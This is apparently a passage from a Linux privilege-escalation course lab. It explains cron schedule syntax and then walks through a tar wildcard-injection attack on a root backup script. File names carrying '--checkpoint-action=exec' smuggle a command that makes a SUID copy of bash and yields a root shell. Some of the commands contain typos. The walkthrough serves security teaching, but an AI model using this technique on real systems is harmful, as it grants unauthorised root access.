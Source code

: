 ```
* * * * *
| | | | |
| | | | +----- Day of the week (0 - 6) (Sunday to Saturday)
| | | +------- Month (1 - 12)
| | +--------- Day of the month (1 - 31)
| +----------- Hour (0 - 23)
+------------- Minute (0 - 59)
```

Using the asterisk (\*) as a wildcard in any of these fields means "every possible value." For example:

* `*` in the "Minute" field would mean "every minute."
* `0 * * * *` means "every hour at the 0th minute."
* `*/15 * * * *` means "every 15 minutes."

So, the asterisk is a powerful wildcard character in cron expressions, allowing you to specify recurring patterns for scheduled tasks.

Let's try:

remember, one of our crons is:&#x20;

```
TCM@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

So let's try to take advantage of that wildcard

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash > runme.sh
chmod +x runme.sh
```

```
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\runme.sh
TCM@debian:~$ /tmp/bash-p
bash:~$ whoami
 root
```

The provided command `tar czf /tmp/backup.tar.gz *` creates a compressed archive (`tar.gz`) of all files (`*`) in the current directory and its subdirectories.

So in our case, it runs:

```
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh\runme.sh
```

And thanks to runme.sh we gain a root shell

### Cron File Overwrites <a href="#lecture_heading" id="lecture_heading"></a>
